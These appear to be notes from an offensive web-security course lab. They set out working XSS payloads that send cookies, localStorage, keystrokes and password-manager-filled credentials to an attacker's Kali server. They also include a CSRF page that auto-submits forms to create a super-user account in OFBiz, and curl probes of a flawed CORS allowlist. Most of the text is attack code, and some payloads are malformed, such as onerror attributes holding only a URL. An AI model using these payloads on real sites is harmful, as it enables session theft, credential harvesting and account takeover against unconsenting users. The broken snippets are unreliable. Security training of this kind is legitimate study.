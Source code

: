 Using JavaScript, we can access the cookies of a page using the document.cookie property. We'll extract this value, URL encode it, and use fetch to send it back to our Kali VM. All of this will be done in the xss.js file.

```console
nano xss.js
cat xss.js
```

```js
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.49.51/exfil?data=" + encodedCookie)
```

we'll start the HTTP server with python3 -m http.server 80.

```console
python3 -m http.server 80
```

The payload will append a script element to the HTML document and the script tag will load the xss.js file from our Kali machine. Let's submit the search and exploit the XSS.

```html
<script src="http://192.168.45.171/xss.js"></script>
<img src="x" onerror="http://192.168.45.171/xss.js">
```

If your server is responding with 304 Not Modified, it means the browser is caching the request and not reloading xss.js. This happens because the browser thinks it already has the latest version of the script and doesn’t need to download it again.

```html
<img src="x" onerror="var s=document.createElement('script'); s.src='http://192.168.45.171/xsss.js?' + Math.random(); document.body.appendChild(s);">
```

? + Math.random() adds a random query string (xss.js?0.4567), making it look like a new request every time.

```html
<input type="text" value="http://192.168.45.171/xss.js">
<div onmouseover="http://192.168.45.171/xss.js">Hover Me</div>
<a href="#" onclick="http://192.168.45.171/xss.js">Click Me</a>
```

To exfiltrate localStorage, we'll convert the object into a string, URL encode the string, and use fetch to send the data back to us.

```js
let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.49.51/exfil?data=" + encodedData)
```

```console
kali@kali:~/xss$ python3 -m http.server 80
```

Keylogging with XSS is limited though. We are able to keylog by creating an event listener for any keystroke, but it can only be set on the current document. That means if the user is on a different tab or in a different application, we won't be able to intercept their keystrokes. However, if the user is typing a private message or attempting to log in on our target site, we can capture those events.

The JavaScript event for keypresses is keydown, which will be passed into the addEventListener function. This function also accepts a callback function to run for each keydown event. Within this function, we'll send the key that was pressed back to our server.

```js
function logKey(event){
        fetch("http://192.168.49.51/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);
```

```console
python3 -m http.server 80
```

While we could add the HTML input tags in the script payload, we'll keep everything in the xss.js file instead to stay organized. In this file, we'll have to create a username and password input. Once the inputs are added to the page, the password manager would automatically fill them with the saved credentials. After some time, we'll send the value of the input back to our Kali machine.

```js
let body = document.getElementsByTagName("body")[0]

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";
  
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
//p.style.opacity = "0";
 
body.append(u)
body.append(p)
 
setTimeout(function(){ 
  fetch("http://192.168.49.51/k?u=" + u.value + "&p=" + p.value)
}, 5000);
```

```console
    python3 -m http.server 80
```

Let's start by building a small HTML page to exploit the CSRF vulnerabilities in this application to add a new user. We'll start with the basic structure of a form element and JavaScript to submit the form on page load. Let's create a file named offgrid.html in /var/www/html so that later on, we can use Apache to serve the page.

```html
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
    <input type="hidden" name="enabled">
    <input type="hidden" name="partyId">
    <input type="hidden" name="userLoginId" value="csrftest">
    <input type="hidden" name="currentPassword" value="password">
    <input type="hidden" name="currentPasswordVerify" value="password">
    <input type="hidden" name="passwordHint">
    <input type="hidden" name="requirePasswordChange" value="N">
    <input type="hidden" name="externalAuthId">
    <input type="hidden" name="securityQuestion">
    <input type="hidden" name="securityAnswer">
  </form>
  <form action="https://ofbiz:8443/webtools/control/userLogin_addUserLoginToSecurityGroup" method="post" name="csrf2" target="_blank">
    <input type="hidden" name="userLoginId" value="csrftest">
    <input type="hidden" name="partyId">
    <input type="hidden" name="groupId" value="SUPER">
    <input type="hidden" name="fromDate_i18n">
    <input type="hidden" name="fromDate">
    <input type="hidden" name="thruDate_i18n">
    <input type="hidden" name="thruDate">
  </form>
</body>
</html>
```

```console
sudo systemctl restart apache2
```

Let's copy our existing HTML page into a new file named offgrid1.html

```console
sudo cp /var/www/html/ofbiz.html /var/www/html/ofbiz1.html
```

```html
<head>
<script>
  function submitForms() {
    document.forms['csrf'].submit();
    document.forms['csrf2'].submit();
    return false;
  }
</script>
</head>
<body onload="submitForms();">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
    <input type="hidden" name="enabled">
    <input type="hidden" name="partyId">
    <input type="hidden" name="userLoginId" value="csrftest">
    <input type="hidden" name="currentPassword" value="password">
    <input type="hidden" name="currentPasswordVerify" value="password">
    <input type="hidden" name="passwordHint">
    <input type="hidden" name="requirePasswordChange" value="N">
    <input type="hidden" name="externalAuthId">
    <input type="hidden" name="securityQuestion">
    <input type="hidden" name="securityAnswer">
  </form>
  <form action="https://ofbiz:8443/webtools/control/userLogin_addUserLoginToSecurityGroup" method="post" name="csrf2" target="_blank">
    <input type="hidden" name="userLoginId" value="csrftest">
    <input type="hidden" name="partyId">
    <input type="hidden" name="groupId" value="SUPER">
    <input type="hidden" name="fromDate_i18n">
    <input type="hidden" name="fromDate">
    <input type="hidden" name="thruDate_i18n">
    <input type="hidden" name="thruDate">
  </form>
</body>
</html>
```

Our practice application includes an additional endpoint with flawed allowlist functionality. Let's use curl to send a request to the endpoint. We'll set -X "OPTIONS" to send an OPTIONS request, -i to include headers on the output, -k to allow insecure server connections when using SSL, and finally, the URL.

```console
curl -X "OPTIONS" -i -k https://sandbox/allowlist
```

We didn't specify an Origin header on our request, but the server responded with an Access-Control-Allow-Origin header with the value "https://target-security.com". Perhaps that is the only allowed origin. However, let's try sending a request with an Origin header that includes a modification of that value. We'll use curl again and set -H Origin: http://www.target-security.com to add an Origin header.

```console
curl -X "OPTIONS" -i -H "Origin: http://www.target-security.com" -k https://sandbox/allowlist
```

The server responded with an Access-Control-Allow-Origin value that matches the value we submitted but we only changed the protocol and subdomain. Let's try modifying the end of it too.

```console
curl -X "OPTIONS" -i -H "Origin: http://www.target-security.net" -k https://sandbox/allowlist
```

What will happen if we alter the domain name by prepending something to change the domain name? Let's try it out. We'll use curl again and change the value of the Origin header to "http://fakeotarget-security.com".

```console
curl -X "OPTIONS" -i -H "Origin: http://faketarget-security.com" -k https://sandbox/allowlist
```


